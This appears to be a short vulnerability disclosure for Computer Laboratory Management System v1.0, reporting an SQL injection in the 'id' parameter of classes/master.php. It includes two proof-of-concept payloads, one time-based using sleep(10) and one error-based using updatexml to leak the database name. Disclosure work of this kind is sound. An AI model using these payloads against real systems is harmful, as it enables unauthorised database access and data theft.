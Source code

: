 BUG_Author: K1ngd0m3

Affected version: Computer Laboratory Management System v1.0

Vendor: https://www.sourcecodester.com/

Software: https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html

Vulnerability File: classes/master.php

Description: computer Laboratory Management System v1.0 is vulnerable to sql injection via classes/master.php The parameter “id” has not been handled correctly. Hackers can exploit this vulnerability to manipulate the system’s administrator account and gain full control over other user accounts’ information. image As shown in the screenshot, at line 108th of the source code, the parameter “id” has not been properly filtered, resulting in a SQL injection vulnerability. 
![image](https://github.com/adminininin/blob/assets/136336674/c89998da-a940-4d39-b00f-03bbe2e1a80b)

GET parameter ‘id’ exists SQL injection vulnerability 
![image](https://github.com/adminininin/blob/assets/136336674/ea09e61a-66a0-4470-96a2-6f2c2fa7564e)

Payload1:id=1'and+sleep(10)#
![image](https://github.com/adminininin/blob/assets/136336674/8be5987c-6a26-4050-a447-c8511455c485)

you can see the server sleep ten seconds

Payload2:id=1'or(updatexml(0,concat(0x5e,database()),0))#
![image](https://github.com/adminininin/blob/assets/136336674/6b96fb72-bcaa-4406-98eb-0c9c61fee8fa)

you can see the db_name
